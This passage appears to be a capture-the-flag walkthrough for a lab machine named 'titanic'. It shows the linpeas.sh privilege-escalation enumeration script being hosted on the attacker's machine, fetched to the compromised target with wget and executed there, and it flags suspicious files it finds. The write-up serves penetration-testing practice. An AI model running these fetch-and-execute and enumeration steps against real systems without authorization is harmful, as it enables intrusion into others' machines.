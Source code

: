 ```
--2025-04-27 19:27:09--  https://github.com/peass-ng/PEASS-ng/releases/download/20250424-d80957fb/linpeas.sh
Reusing existing connection to github.com:443.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/19407164-4792-46ab-8868-e8894c421c06?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250428%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250428T002709Z&X-Amz-Expires=300&X-Amz-Signature=5d728e7033f6112b1c2cf9be5ca3da2e9cc42605b3d566c9b3909f53ce65d8ce&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream [following]
--2025-04-27 19:27:09--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/19407164-4792-46ab-8868-e8894c421c06?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250428%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250428T002709Z&X-Amz-Expires=300&X-Amz-Signature=5d728e7033f6112b1c2cf9be5ca3da2e9cc42605b3d566c9b3909f53ce65d8ce&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.108.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840139 (820K) [application/octet-stream]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 820.45K  --.-KB/s    in 0.007s  

2025-04-27 19:27:09 (120 MB/s) - ‘linpeas.sh’ saved [840139/840139]

chmod +x linpeas.sh 

python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.55 - - [27/Apr/2025 19:27:40] "GET /linpeas.sh HTTP/1.1" 200 -
```
On target machine
```
wget http://10.10.14.25:8000/linpeas.sh
--2025-04-28 00:26:39--  http://10.10.14.25:8000/linpeas.sh
Connecting to 10.10.14.25:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840139 (820K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 820.45K   804KB/s    in 1.0s    

2025-04-28 00:26:40 (804 KB/s) - ‘linpeas.sh’ saved [840139/840139]

developer@titanic:~$ chmod +x linpeas.sh 
developer@titanic:~$ ./linpeas.sh 
```
These things stood out to me 
```
╔══════════╣ Executable files potentially added by user (limit 70)
2025-02-07+11:24:14.6853932020 /usr/local/sbin/laurel
2025-02-03+17:11:30.8632630370 /opt/scripts/identify_images.sh
2025-01-27+16:58:09.1138300540 /etc/update-motd.d/99-legal
2024-08-02+14:07:35.8360909790 /usr/bin/magick
```
We can see a script and also a magick file. I will go over and see what this script does 
```
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
```